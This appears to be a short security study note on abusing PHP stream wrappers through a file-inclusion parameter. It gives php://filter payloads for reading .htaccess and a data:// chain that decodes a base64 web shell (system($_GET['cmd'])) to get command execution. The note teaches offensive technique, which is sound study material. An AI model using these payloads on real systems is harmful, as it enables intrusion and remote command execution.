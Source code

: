 
PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.

### Filter Wrapper

For example, the table below represents the output of the target file .htaccess using the different string filters in PHP, Don't forget to add `?page=`.

|   |   |
|---|---|
|**Payload**|**Output**|
|php://filter/convert.base64-encode/resource=.htaccess |UmV3cml0ZUVuZ2luZSBvbgpPcHRpb25zIC1JbmRleGVz|
|php://filter/string.rot13/resource=.htaccess|ErjevgrRatvar ba Bcgvbaf -Vaqrkrf|
|php://filter/string.toupper/resource=.htaccess|REWRITEENGINE ON OPTIONS -INDEXES|
|php://filter/string.tolower/resource=.htaccess|rewriteengine on options -indexes|
|php://filter/string.strip_tags/resource=.htaccess|RewriteEngine on Options -Indexes|
|No filter applied|RewriteEngine on Options -Indexes|

### Data Wrapper

The data stream wrapper is another example of PHP's wrapper functionality. The `data://` wrapper allows inline data embedding. It is used to embed small amounts of data directly into the application code.

For example, `?page=data:text/plain,<?php%20phpinfo();%20?>` (POC)

We could use both data and filter by adding this payload `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=` which belongs to this `<?php system($_GET['cmd']);?>`, then we could do something like this:
`php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=whoami`

Now we have RCE!.

![](../Attachments/Pasted%20image%2020240212141401.png)

Taken from https://www.cdxy.me/?p=752